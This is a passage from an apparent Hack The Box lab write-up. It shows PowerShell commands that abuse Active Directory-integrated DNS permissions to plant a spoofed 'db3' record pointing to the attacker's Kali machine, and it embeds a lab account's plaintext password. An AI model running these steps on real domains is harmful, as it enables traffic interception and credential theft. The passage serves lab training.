 ```
PS > $User = 'htb.local\remote_user';$Pass = ConvertTo-SecureString 'FZg28$dJe*Hx7c' -AsPlainText -Force;$Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)
PS > Get-ADIDNSZone -Credential $Cred -Verbose
DC=htb.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=htb,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=htb,DC=local
DC=_msdcs.htb.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=htb,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,CN=System,DC=htb,DC=local

PS > Get-ADIDNSPermission -Credential $Cred -Verbose | ? {$_.Principal -eq 'NT AUTHORITY\Authenticated Users'}
Principal             : NT AUTHORITY\Authenticated Users
IdentityReference     : S-1-5-11
ActiveDirectoryRights : CreateChild
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

`CreateChild` permission is what we need.

2\. Create, configure the new DNS name that could be likely exploited for spoofing with Kali's IP and enable it. I chose `db3` which was found in cache:

```
PS > New-ADIDNSNode -DomainController dc1 -Node db3 -Credential $Cred -Verbose
PS > $dnsRecord = New-DNSRecordArray -Type A -Data 10.14.14.37
PS > Set-ADIDNSNodeAttribute -Node db3 -Attribute dnsRecord -Value $dnsRecord -Credential $Cred -Verbose
PS > Enable-ADIDNSNode -DomainController dc1 -Node db3 -Credential $Cred -Verbose
```

3\. Check the newly created DNS object and try to resolve it. AD will need some time (180 seconds) to sync LDAP changes via its DNS dynamic updates protocol, so take a deep breath and don't panic:

```
PS > Get-ADIDNSNodeAttribute -Node db3 -Attribute dnsRecord -Credential $Cred -Verbose
PS > Resolve-DNSName db3
PS > cmd /c ping -n 1 db3
```
